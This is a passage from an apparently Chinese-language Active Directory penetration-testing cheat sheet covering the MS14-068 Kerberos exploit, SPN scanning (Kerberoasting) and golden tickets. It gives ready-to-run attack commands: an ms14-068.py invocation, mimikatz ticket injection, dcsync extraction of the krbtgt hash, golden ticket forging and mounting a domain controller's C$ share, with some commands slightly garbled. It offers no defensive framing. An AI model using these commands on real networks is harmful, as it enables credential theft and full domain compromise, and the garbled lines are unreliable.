 ```
python ms14-068.py -u 域用户@域名 -p 密码 -s 用户SID -d 域主机
```

利用mimikatz将工具得到的[TGT_domainuser@SERVER.COM.ccache](mailto:TGT_domainuser@SERVER.COM.ccache)写入内存，创建缓存证书：

```
mimikatz.exe "kerberos::ptc c:TGT_darthsidious@pentest.com.ccache" exit
net use k: \pentest.comc$
```

相关阅读 :

- [Kerberos的工具包PyKEK](http://adsecurity.org/?p=676)
- [深入解读MS14-068漏洞](http://www.freebuf.com/vuls/56081.html)
- [Kerberos的安全漏洞](https://adsecurity.org/?p=541)

##### SPN扫描

Kerberoast可以作为一个有效的方法从Active Directory中以普通用户的身份提取服务帐户凭据，无需向目标系统发送任何数据包。 SPN是服务在使用Kerberos身份验证的网络上的唯一标识符。它由服务类，主机名和端口组成。在使用Kerberos身份验证的网络中，必须在内置计算机帐户（如NetworkService或LocalSystem）或用户帐户下为服务器注册SPN。对于内部帐户，SPN将自动进行注册。但是，如果在域用户帐户下运行服务，则必须为要使用的帐户的手动注册SPN。 SPN扫描的主要好处是，SPN扫描不需要连接到网络上的每个IP来检查服务端口，SPN通过LDAP查询向域控执行服务发现，SPN查询是Kerberos的票据行为一部分，因此比较难检测SPN扫描。 相关阅读 :

- [非扫描式的SQL Server发现](https://blog.netspi.com/locate-and-attack-domain-sql-servers-without-scanning/)
- [SPN扫描](https://adsecurity.org/?p=1508)
- [扫描SQLServer的脚本](https://github.com/PyroTek3/PowerShell-AD-Recon)

##### Kerberos的黄金门票

在域上抓取的哈希

```ABAP
lsadump::dcsync /domain:pentest.com /user:krbtgt

kerberos::purge

kerberos::golden /admin:administrator /domain:域 /sid:SID /krbtgt:hash值 
/ticket:adinistrator.kiribi

kerberos::ptt administrator.kiribi

kerberos::tgt

net use k: \pnet use k: \pentest.comc$
```

相关阅读 :

- https://adsecurity.org/?p=1640
- [域服务账号破解实践](http://bobao.360.cn/learning/detail/3564.html)
- [Kerberos的认证原理](https://blog.csdn.net/wulantian/article/details/42418231)
- [深刻理解windows安全认证机制ntlm＆Kerberos](https://klionsec.github.io/2016/08/10/ntlm-kerberos/)

##### Kerberos的银票务
